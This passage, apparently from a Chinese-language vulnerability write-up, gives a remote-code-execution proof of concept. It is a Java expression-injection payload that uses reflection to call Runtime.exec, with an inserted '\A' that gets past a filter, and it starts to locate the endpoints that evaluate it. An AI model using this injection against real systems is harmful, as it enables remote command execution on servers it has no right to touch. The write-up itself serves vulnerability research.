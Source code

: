 也可以直接知道绕过方法,这里我直接给我rce的poc

```
$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/sssss')} 
```

为什么增加了`\A`还不影响表达式的解析呢,这个我后面说,先构造出完整poc

那么我们找一下哪些接口会使用

![image](img/b8bd7fd96c6368c77190bbac3e4fb9be.png)

可以看到总过有三处,以第一处Roles为例,

![image](img/41019ea35cc0c96ca36e4b292f7d8e79.png)